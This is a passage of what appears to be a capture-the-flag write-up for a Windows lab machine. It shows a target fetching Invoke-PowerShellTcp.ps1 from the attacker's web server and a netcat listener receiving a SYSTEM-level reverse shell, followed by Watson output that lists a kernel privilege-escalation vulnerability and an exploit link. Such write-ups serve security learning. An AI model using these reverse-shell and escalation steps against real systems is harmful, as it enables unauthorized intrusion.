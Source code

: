 [+] CreateProcessWithTokenW OK

When it does, I get a request on my python webserver:

10.10.10.116 - - [14/Jan/2019 19:13:46] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -

And then a shell:

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.116.
Ncat: Connection from 10.10.10.116:49723.
Windows PowerShell running as user CONCEAL$ on CONCEAL
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
nt authority\system

Now now I’ll grab the root flag:

````




## Other escaladation


### Watson


````
watson shows several potential vulns:

PS C:\users\Destitute\appdata\local\temp> .\a.exe
  __    __      _
 / / /\ \ \__ _| |_ ___  ___  _ __
 \ \/  \/ / _` | __/ __|/ _ \| '_ \
  \  /\  / (_| | |_\__ \ (_) | | | |
   \/  \/ \__,_|\__|___/\___/|_| |_|

                           v0.1

                  Sherlock sucks...
                   @_RastaMouse

 [*] OS Build number: 15063
 [*] CPU Address Width: 64
 [*] Process IntPtr Size: 8
 [*] Using Windows path: C:\WINDOWS\System32

  [*] Appears vulnerable to MS16-039
   [>] Description: An EoP exist when the Windows kernel-mode driver fails to properly handle objects in memory.
   [>] Exploit: https://www.exploit-db.com/exploits/44480/
   [>] Notes: Exploit is for Windows 7 x86.
